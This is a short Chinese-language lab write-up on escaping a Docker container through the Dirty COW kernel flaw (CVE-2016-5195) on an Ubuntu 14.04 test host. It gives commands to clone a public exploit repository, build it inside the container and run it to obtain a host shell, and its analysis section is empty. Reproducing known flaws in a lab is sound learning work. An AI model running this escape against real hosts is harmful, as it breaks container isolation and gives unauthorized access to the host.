

# Docker逃逸系列3 dirtycow漏洞利用


> Docker逃逸3：利用Linux内核漏洞 dirtycow(CVE-2016-5195) 进行逃逸
>
> 宿主机：ubuntu 14.04
>
> Docker版本：Docker version 18.06.3-ce, build d7080c1

## 步骤1、安装虚拟机以及docker以及docker-compose

### 镜像下载：

- [http://old-releases.ubuntu.com/releases/14.04.3/ubuntu-14.04.5-desktop-amd64.iso.torrent](http://old-releases.ubuntu.com/releases/14.04.3/ubuntu-14.04.5-desktop-amd64.iso.torrent)

### docker安装：

按照[文档步骤](https://yeasy.gitbook.io/docker_practice/install/ubuntu)操作到最后一步，发现docker-ce-cli找不到。经过后来的实际操作结果可知，其实安装的包只需要写到docker-ce就可以了。

### docker-compose安装：

- [https://blog.csdn.net/tianjiewang/article/details/83012635](https://blog.csdn.net/tianjiewang/article/details/83012635)

## 步骤2、启动dirtyCow容器并测试逃逸

首先复制仓库**[dirtycow-docker-vdso](https://github.com/gebl/dirtycow-docker-vdso)**

```bash
git clone https://github.com/gebl/dirtycow-docker-vdso.git
```

然后使用docker-compose创建容器

```bash
cd dirtycow-docker-vdso/
sudo docker-compose run dirtycow /bin/bash
```

查看容器ip地址，测试漏洞

```bash
ifconfig
cd /dirtycow-vdso/
make
./0xdeadbeef 172.18.0.3:1234
```

于是在容器里就可以看到逃逸到了宿主机的环境，可以执行一系列操作



## 原理分析


## 参考链接：

- https://thinkycx.me/2019-05-20-CVE-2016-5195-dirtycow-recurrence.html
- https://dirtycow.ninja/
- https://blog.paranoidsoftware.com/dirty-cow-cve-2016-5195-docker-container-escape/
